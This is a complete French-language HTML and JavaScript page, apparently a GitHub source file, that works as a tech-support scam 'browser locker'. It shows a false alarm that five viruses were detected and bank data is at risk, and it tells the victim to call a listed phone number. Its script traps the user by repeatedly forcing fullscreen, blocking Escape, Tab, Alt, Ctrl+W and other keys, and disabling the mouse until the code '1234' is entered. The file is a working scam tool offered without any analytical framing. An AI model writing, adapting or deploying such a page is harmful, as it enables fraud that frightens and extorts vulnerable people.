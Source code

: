 <!DOCTYPE html>
<html lang="fr">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Alerte Système</title>
    <style>
        * {
            margin: 0;
            padding: 0;
            box-sizing: border-box;
            user-select: none;
            cursor: none; /* Désactive totalement le pointeur */
        }
        html, body {
            width: 100vw;
            height: 100vh;
            background: black;
            color: white;
            font-family: 'Courier New', Courier, monospace;
            text-align: center;
            overflow: hidden;
            display: flex;
            justify-content: center;
            align-items: center;
        }
        .container {
            display: flex;
            flex-direction: column;
            justify-content: center;
            align-items: center;
            width: 100%;
            height: 100%;
            padding: 5%;
        }
        .message {
            font-size: 5vw;
            font-weight: bold;
        }
        .alert-number {
            font-size: 4vw;
            font-weight: bold;
            color: red;
        }
        #codeInput {
            margin-top: 20px;
            padding: 15px;
            font-size: 3vw;
            text-align: center;
            border: 3px solid white;
            width: 50%;
            background: black;
            color: white;
            outline: none;
        }
        #error-message {
            color: red;
            font-size: 2vw;
            margin-top: 10px;
            animation: shake 0.5s;
            animation-iteration-count: 1;
        }
        @keyframes shake {
            0% { transform: translateX(0); }
            25% { transform: translateX(-5px); }
            50% { transform: translateX(5px); }
            75% { transform: translateX(-5px); }
            100% { transform: translateX(0); }
        }
        .glitch {
            position: relative;
            color: white;
            font-size: 3vw;
            animation: glitch 1s infinite;
        }
        @keyframes glitch {
            0% {
                text-shadow: 2px 2px red, -2px -2px blue;
            }
            25% {
                text-shadow: -2px 2px red, 2px -2px blue;
            }
            50% {
                text-shadow: 2px -2px red, -2px 2px blue;
            }
            75% {
                text-shadow: -2px -2px red, 2px 2px blue;
            }
            100% {
                text-shadow: 2px 2px red, -2px -2px blue;
            }
        }
    </style>
</head>
<body>
    <div class="container">
        <p class="message"> 🚨 ATTENTION ! 🚨
5 VIRUS DÉTECTÉS SUR VOTRE APPAREIL !
🛑 Votre système est compromis ! 🛑
🔴 Ne fermez PAS cette page ! 🔴
🔴 Ne redémarrez PAS votre appareil ! 🔴
📛 Votre appareil est exposé à une attaque sérieuse ! 📛
Toutes vos données personnelles (photos, mots de passe, comptes bancaires) risquent d’être volées à tout moment.   <br>Appelez immédiatement :</p>
        <p class="alert-number">+33 7 56 75 43 88</p>
        <p style="font-size: 3vw;">Entrez le code de déverrouillage :</p>
        <input type="password" id="codeInput" placeholder="Code secret">
        <p id="error-message" class="glitch"></p>
    </div>
    <audio id="keypress-sound">
        <source src="https://www.soundjay.com/button/beep-07.wav" type="audio/wav">
    </audio>
    <audio id="error-sound">
        <source src="https://www.soundjay.com/button/beep-10.wav" type="audio/wav">
    </audio>
    <script>
        function openFullscreen() {
            let elem = document.documentElement;
            if (elem.requestFullscreen) {
                elem.requestFullscreen();
            } else if (elem.mozRequestFullScreen) {
                elem.mozRequestFullScreen();
            } else if (elem.webkitRequestFullscreen) {
                elem.webkitRequestFullscreen();
            } else if (elem.msRequestFullscreen) {
                elem.msRequestFullscreen();
            }
        }
        openFullscreen();

        // Bloquer tous les raccourcis clavier
        document.addEventListener("keydown", function(event) {
            let blockedKeys = ["Escape", "Tab", "F11", "F4", "Alt", "Control", "Meta"];
            if (blockedKeys.includes(event.key) || (event.ctrlKey && event.key === "w")) {
                event.preventDefault();
                return false;
            }
        });

        // Désactiver totalement la touche Échap
        window.addEventListener("keydown", function(event) {
            if (event.key === "Escape") {
                event.preventDefault();
                return false;
            }
        });

        // Désactiver complètement la souris
        window.addEventListener("mousemove", function(event) {
            event.preventDefault();
        });
        window.addEventListener("mousedown", function(event) {
            event.preventDefault();
        });
        window.addEventListener("mouseup", function(event) {
            event.preventDefault();
        });
        window.addEventListener("contextmenu", function(event) {
            event.preventDefault();
        });
        window.addEventListener("wheel", function(event) {
            event.preventDefault();
        });

        // Empêcher la sortie du plein écran
        document.addEventListener("fullscreenchange", function() {
            if (!document.fullscreenElement) {
                openFullscreen();
            }
        });

        // Ajouter un son à chaque touche pressée
        let inputField = document.getElementById("codeInput");
        let errorMessage = document.getElementById("error-message");
        let sound = document.getElementById("keypress-sound");
        let errorSound = document.getElementById("error-sound");

        inputField.addEventListener("keydown", function(event) {
            if (!["Enter", "Backspace"].includes(event.key)) {
                sound.play();
            }
        });

        // Vérifier le code
        inputField.addEventListener("keyup", function(event) {
            if (event.key === "Enter") {
                if (this.value === "1234") {
                    document.body.innerHTML = "<h1 style='color: white; text-align: center; margin-top: 20%; font-size: 5vw;'>  Système restauré</h1>";
                } else {
                    errorMessage.innerText = "Code incorrect !";
                    errorMessage.classList.remove("glitch");
                    void errorMessage.offsetWidth; // Reset animation
                    errorMessage.classList.add("glitch");
                    errorSound.play();
                    this.value = "";
                }
            }
        });

        // Focus automatique sur le champ
        window.onload = function() {
            inputField.focus();
        };

        // Reforcer le plein écran toutes les 2 secondes
        setInterval(openFullscreen, 2000);
    </script>
</body>
</html>
